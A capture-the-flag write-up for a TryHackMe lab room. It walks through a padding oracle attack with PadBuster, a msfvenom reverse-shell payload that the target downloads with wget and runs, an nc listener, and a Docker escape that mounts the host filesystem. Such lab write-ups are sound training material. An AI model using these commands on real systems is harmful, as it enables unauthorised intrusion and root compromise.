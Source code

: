 # New York Flankees

https://tryhackme.com/r/room/thenewyorkflankees, Medium difficulty

Good use of an old technique in this room.

1. Two ports are open, 22 and 8080. On 8080 is a simple website. On 8080 the site proclaim's itself as a blog supported by 'ORACLE'. This is a hint to the key path in this room.
2. A linked page is `/debug.html`, which displays a few fixed error messages. However, looking into its source reveals the following javascript:

   ```javascript
   function stefanTest1002() {
    var xhr = new XMLHttpRequest();
    var url = "http://localhost/api/debug";
    // Submit the AES/CBC/PKCS payload to get an auth token
    // TODO: Finish logic to return token
    xhr.open("GET", url + "/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4", true);

    xhr.onreadystatechange = function () {
        if (xhr.readyState === 4 && xhr.status === 200) {
            console.log("Response: ", xhr.responseText);
        } else {
            console.error("Failed to send request.");
        }
    };
    xhr.send();
   }
   ```
3. If the url in question is called directly (noting that it should be the box's ip on 8080, not localhost:80 as in the code above), but with a slight mangling of the encrypted string, will result in a 500 'Decryption error', as opposed to a 200 'Custom authentication success' for the original string.

4. This suggests a [padding oracle attack](https://en.wikipedia.org/wiki/Padding_oracle_attack), especially with the site's reference to 'ORACLE'. A long term tool I have used for this is https://github.com/AonCyberLabs/PadBuster, a perl tool from way back (13 years ago!). This works very well:

```
sudo apt install libcrypt-ssleay-perl -y
git clone https://github.com/AonCyberLabs/PadBuster
chmod +x ./PadBuster/padBuster.pl
./PadBuster/padBuster.pl http://10.10.245.217:8080/api/debug/39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 39353661353931393932373334633638EA0DCC6E567F96414433DDF5DC29CDD5E418961C0504891F0DED96BA57BE8FCFF2642D7637186446142B2C95BCDEDCCB6D8D29BE4427F26D6C1B48471F810EF4 16 -encoding 2
```

To explain the command a little briefer, its the default required args (including specifying 16 byte block size) plus `-encoding 2`, which specifies the encoding is upper case hex. The format is `[full url including the encrypted value] [the encrypted value] [blocksize] -encoding 2`

This will quickly decode the result, which will then be printed in ascii and reveal a set of credentials (which is also the first room question).

5. The credentials work via the admin login, which allows access to a 'debug' page with the first flag. This contains a form field that can run commands - but not return any output.

6. To get a shell, you can create a payload e.g. with msfvenom: `msfvenom -p linux/x64/shell_reverse_tcp lhost=10.10.247.53 lport=4444 -f elf > connect`. Hosting this on the attackbox via a webserver, and set up a `nc -nvlp 4444` listener. Then the following commands can be used to catch the shell:

```
wget 10.10.247.53:1234/connect -O /tmp/connect
chmod +x /tmp/connect
/tmp/connect
```

7. This puts you as root inside a docker container. The site is at /app, and by reading the docker-compose.yml file in there, you can retrieve the second, 'docker flag'.
8. Escape is fairly trivial: docker is available as a command within the container, and as you are root, you can use it to mount the host OS; first, you can see images you might use with `docker images`, revealing openjdk:11 among others - this image is used by the kotlin app. Which image doesn't really matter. Additionally, you will need a full pty for this to work:

```
/usr/bin/python3.9 -c 'import pty; pty.spawn("/bin/bash")'
docker run -it -v /:/host/ openjdk:11 chroot /host/ bash
```

This command starts an interactive bash shell, after mounting the host OS as /host and then chroot'ing at /host. The final flag is at `/flag.txt`
